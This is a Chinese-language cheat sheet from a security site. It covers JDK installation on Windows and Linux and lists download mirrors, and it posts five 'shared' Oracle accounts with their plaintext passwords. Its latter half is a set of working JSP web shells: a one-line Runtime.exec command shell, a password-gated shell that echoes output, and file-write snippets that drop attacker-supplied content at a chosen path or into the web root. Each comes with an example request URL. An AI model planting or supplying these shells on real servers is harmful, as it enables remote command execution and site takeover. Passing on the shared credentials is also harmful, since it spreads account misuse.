 ```yaml
---
date: 2024-10-29
title: Java/JSP环境搭建与安全相关操作全解析
author: [SecCMD]
description: >
 全面介绍Java/JSP开发相关内容，涵盖自动化与手动安装JDK的详细步骤，包括Windows和Linux系统下的安装方法，还提供Java下载地址及特殊账号。同时深入讲解Java/JSP安全相关操作，如无回显与有回显的命令执行、文件写入及编码原理等，为Java开发者及安全从业者提供一站式知识服务。
categories: 编程开发, 基础工具
tags:
  - Java
  - JSP
  - JDK安装
  - 命令执行
  - 文件写入
  - 网络安全
  - 编程开发
---
```


# Java/JSP

### 自动化安装脚本
```
curl -o jdk-18_windows-x64_bin.exe  https://d6.injdk.cn/oraclejdk/18/jdk-18_windows-x64_bin.exe
jdk-18_windows-x64_bin.exe /s
# 静默安装完成，需要重新打开一个 CMD 窗口。
java -version 
echo %PATH%
echo %JAVA_HOME%
# 参考 Java 18 Silent Install https://silentinstallhq.com/java-18-silent-install-how-to-guide/
```

### Windows 手动安装 JDK（主要提升Win安装效率）
```
http://www.codebaoku.com/jdk/jdk-install-windows.html
1. 下载完成后双击jdk-8u271-windows-x64.exe文件。
2. 环境变量的配置 JAVA_HOME CLASSPATH PATH
```

## Linux 安装JDK （首先使用 apt yum方式）
```
http://www.codebaoku.com/jdk/jdk-install-linux.html
mkdir /usr/java/
tar -zxvf jdk-8u171-Linux-x64.tar.gz -C /usr/java/
#//环境变量在将会在 /etc/profile 文件中配置，为了防止配置错误，建议先将改文件负责进行备份。
#//备份 /etc/profile 文件
cp /etc/profile /etc/profile.bak
#//编辑 profile 文件，输入 vi /etc/prifle ，然后定位到这个文件的最后面。再按住字母 o ，开启编辑模式。
#//复制下面的内容粘贴到vi编辑器（注意 JAVA_HOME 这个路径，应该写成你刚刚解压的目录）。
export JAVA_HOME=/usr/local/java/jdk1.8.0_171
export JRE_HOME=${JAVA_HOME}/jre
export CLASSPATH=.:${JAVA_HOME}/lib:${JRE_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH
#//让 /etc/profile 文件生效，
source /etc/profile    
#//检查是否配置成功，如果现实了版本信息，那么则证明配置成功。
javac -version
```

###  Java 下载地址
```
（0）http://www.codebaoku.com/jdk/jdk-index.html
（1）TUNA镜像 https://mirrors.tuna.tsinghua.edu.cn/AdoptOpenJDK/
（2）HUAWEI镜像 https://repo.huaweicloud.com/java/jdk/
（3）injdk https://www.injdk.cn/
```

### Oracle 共享账号 用于JDK下载
```
http://www.codebaoku.com/jdk/jdk-oracle-account.html

账号	密码
bnptrhinldfoguijh@mytrashmailer.com	#&qRfvE7rg37GhjEfDJy
sosen65433@kahase.com	SuckMyDick123!@#
erfede@yopmail.com	Bellapete!1
mqkpexeozyceyccghg@nthrl.com	weLgKcEdnc8PGua/
ttauern@trash-mail.com	nhXpiFpk3KztJ43
```

### 一、无回显的命令执行（命令执行后不会在前端页面返回数据）


```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

请求url：http://127.0.0.1/shell.jsp?i=whoami
```


### 二、有回显带密码的命令执行（命令执行后会在前端返回数据）

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



### 三、文件写入（改写目标服务器里的文件,若文件不存在则创建）

```markdown
1. ISO-8859-1输入:
new java.io.FileOutputStream(request.getParameter("file")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

2. UTF-8输入:
new java.io.FileOutputStream(request.getParameter("file")).write(new String(request.getParameter("content").getBytes("ISO-8859-1"), "UTF-8").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

3. Web目录写入;
new java.io.FileOutputStream(application.getRealPath("/") + "/" + request.getParameter("filename")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=test.txt&content=test
```


### 四、编码相关

Runtime-exec 编码原理 https://www.jianshu.com/p/ae3922db1f70

Runtime-exec 编码工具 https://www.bugku.net/runtime-exec-payloads/

Java在线运行环境 https://www.w3cschool.cn/tryrun/runcode?lang=java-openjdk
